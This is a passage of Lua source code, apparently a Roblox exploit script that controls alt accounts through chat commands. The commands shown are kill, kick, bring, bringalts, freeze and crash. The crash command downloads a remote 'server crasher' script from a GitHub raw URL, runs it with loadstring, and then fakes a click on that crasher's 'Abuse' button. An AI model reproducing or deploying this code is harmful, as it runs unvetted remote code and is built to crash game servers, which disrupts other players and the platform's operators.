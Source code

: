                         end
                        if finalMsg == getgenv().prefix .. "kill" then
                            humanoid.Health = 0
                        end

                        if finalMsg == getgenv().prefix .. "crash" then
                            loadstring(game:HttpGet(
                                'https://raw.githubusercontent.com/lerkermer/lua-projects/master/SuperCustomServerCrasher'))()
                            wait(2)
                            local function firefakesignal(Button)
                                game:GetService("VirtualInputManager"):SendMouseButtonEvent(Button.AbsolutePosition.X +
                                                                                                Button.AbsoluteSize.X /
                                                                                                2,
                                    Button.AbsolutePosition.Y + Button.AbsoluteSize.Y / 2 + 30, 0, true, yomama, 1)
                                game:GetService("VirtualInputManager"):SendMouseButtonEvent(Button.AbsolutePosition.X +
                                                                                                Button.AbsoluteSize.X /
                                                                                                2,
                                    Button.AbsolutePosition.Y + Button.AbsoluteSize.Y / 2 + 30, 0, false, yomama, 1)
                            end

                            firefakesignal(game:GetService("CoreGui").SwagmodeCrasher["made_by_Lerk#7643"].CrashFrame
                                               .Abuse)
                        end

                        if finalMsg == getgenv().prefix .. "kill " .. plr.Name:lower() then
                            humanoid.Health = 0
                        end

                        if finalMsg == getgenv().prefix .. "kick" then
                            plr:Kick("You've been kicked by the Controller.")
                        end
                        if finalMsg == getgenv().prefix .. "kick " .. plr.Name:lower() then
                            plr:Kick("You've been kicked by the Controller.")
                        end

                        if finalMsg == getgenv().prefix .. "bringalts" then
                            game.Players.LocalPlayer.Character.Head.Anchored = false
                            PlayerHumanoid.RootPart.CFrame = LastTargetPosition + LastTargetPosition.LookVector * Length
                            PlayerHumanoid.RootPart.CFrame =
                                CFrame.new(PlayerHumanoid.RootPart.CFrame.Position, Vector3.new(
                                    LastTargetPosition.Position.X, PlayerHumanoid.RootPart.CFrame.Position.Y,
                                    LastTargetPosition.Position.Z))
                        end

                        if finalMsg == getgenv().prefix .. "bring " .. plr.Name:lower() then
                            game.Players.LocalPlayer.Character.Head.Anchored = false
                            PlayerHumanoid.RootPart.CFrame = LastTargetPosition + LastTargetPosition.LookVector * Length
                            PlayerHumanoid.RootPart.CFrame =
                                CFrame.new(PlayerHumanoid.RootPart.CFrame.Position, Vector3.new(
                                    LastTargetPosition.Position.X, PlayerHumanoid.RootPart.CFrame.Position.Y,
                                    LastTargetPosition.Position.Z))
                        end

                        if finalMsg == getgenv().prefix .. "freeze" then
